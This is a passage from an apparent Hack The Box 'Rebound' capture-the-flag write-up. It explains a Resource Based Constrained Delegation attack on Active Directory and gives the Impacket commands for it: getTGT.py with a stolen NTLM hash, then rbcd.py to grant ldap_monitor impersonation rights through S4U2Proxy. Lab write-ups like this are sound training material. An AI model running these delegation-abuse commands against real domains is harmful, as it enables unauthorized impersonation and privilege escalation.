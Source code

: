 
![](/assets/posts/2023-12-31-htb-rebound/rebound_contrained_delegation.bmp)


For attacking Resource Based Constrained Delegation, a viable method is outlined in this resource: [https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd). The initial step involves obtaining a TGT ticket for the delegator$ user, utilizing the NTLM hash obtained from the ReadGMSAPassword attack. Subsequently, the plan is to leverage Impacket to enable ldap_monitor to impersonate users on delegator$ via S4U2Proxy. 


```bash
getTGT.py 'rebound.htb/delegator$@dc01.rebound.htb' -hashes aad3b435b51404eeaad3b435b51404ee:f8db61f5fd0643c073cd58ffcc81379f -dc-ip 10.10.11.231

export KRB5CCNAME=delegator\$@dc01.rebound.htb.ccache

rbcd.py 'rebound.htb/delegator$' -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -use-ldaps -dc-ip 10.10.11.231 -debug -k -no-pass
```

